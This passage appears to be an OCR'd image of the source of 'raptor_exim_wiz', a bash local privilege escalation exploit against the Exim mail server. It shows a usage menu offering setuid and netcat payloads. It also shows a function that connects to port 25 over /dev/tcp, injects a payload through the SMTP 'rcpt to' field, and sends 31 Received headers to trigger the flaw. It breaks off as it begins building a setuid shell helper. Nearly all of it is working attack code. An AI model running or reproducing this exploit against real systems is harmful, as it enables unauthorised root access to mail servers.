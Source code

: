     {
     echo "$0 [-m METHOD]"
     echo
     echo "-m setuid : use the setuid payload (default)"
     echo "-m netcat : use the netcat payload"
     echo
     exit 1
    }
    # payload delivery
    function exploit()
    {
     # connect to localhost:25
     exec 3<>/dev/tcp/localhost/25
     # deliver the payload
     read -u 3 && echo $REPLY
     echo "helo localhost" >&3
     read -u 3 && echo $REPLY
     echo "mail from:<>" >&3
     read -u 3 && echo $REPLY
     echo "rcpt to:<$PAYLOAD>" >&3
     read -u 3 && echo $REPLY
     echo "data" >&3
     read -u 3 && echo $REPLY
     for i in {1..31}
     do
       echo "Received: $i" >&3
     done
     echo "." >&3
     read -u 3 && echo $REPLY
     echo "quit" >&3
     read -u 3 && echo $REPLY
    }
    # print banner
    echo
    echo 'raptor_exim_wiz - "The Return of the WIZard" LPE exploit'
    echo 'Copyright (c) 2019 Marco Ivaldi <raptor@0xdeadbeef.info>'
    echo
    # parse command line
    while [ ! -z "$1" ]; do
     case $1 in
       -m) shift; METHOD="$1"; shift;;
       * ) usage
       ;;
     esac
    done
    if [ -z $METHOD ]; then
     usage
    fi
    # setuid method
    if [ $METHOD = "setuid" ]; then
     # prepare a setuid shell helper to circumvent bash checks
     echo "Preparing setuid shell helper..."